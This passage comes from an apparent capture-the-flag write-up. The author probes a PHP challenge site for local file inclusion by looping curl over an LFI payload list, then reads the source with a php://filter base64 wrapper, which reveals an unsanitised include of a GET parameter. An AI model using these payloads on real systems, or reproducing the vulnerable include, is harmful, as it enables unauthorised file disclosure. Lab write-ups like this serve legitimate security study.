 <img src="/assets/img/urchin/route2/home.png" alt="home page">
<figcaption>Home page</figcaption>
</figure>
But from hint found in the profile of chellenge they said 

```bash
http://[ip]/?page=about will help!,
```  
Tried very harder to find flag through LFI but  failled. Even  after automating the process with curl like

```console
┌──(sup3rm4n㉿digitalwarriors)-[~/…/assets/img/urchin/route2]
└─$ for i in $(cat /usr/share/seclists/Payloads/chaina/lfi/LFI_payloads.txt);do curl http://178.128.46.171:9006/?page=$i;done 
```
But din't succecd.

2.Using php wrappers

Using php wrappers to view local files
```console
http://178.128.46.171:9006/?page=php://filter/convert.base64-encode/resource=index
```
Found php source codes encodes as `base64`. Decording base64 find source code.
```console
<?php include("includes/a_config.php");
?>
<!DOCTYPE html>
<html>
<head>
        <?php include("includes/head-tag-contents.php");?>
</head>
<body>

<?php include("includes/design-top.php");?>
<?php include("includes/navigation.php");?>

<?php
        $page = $_GET["page"];
        include($page.'.php');
?>

<div class="container" id="main-content">
```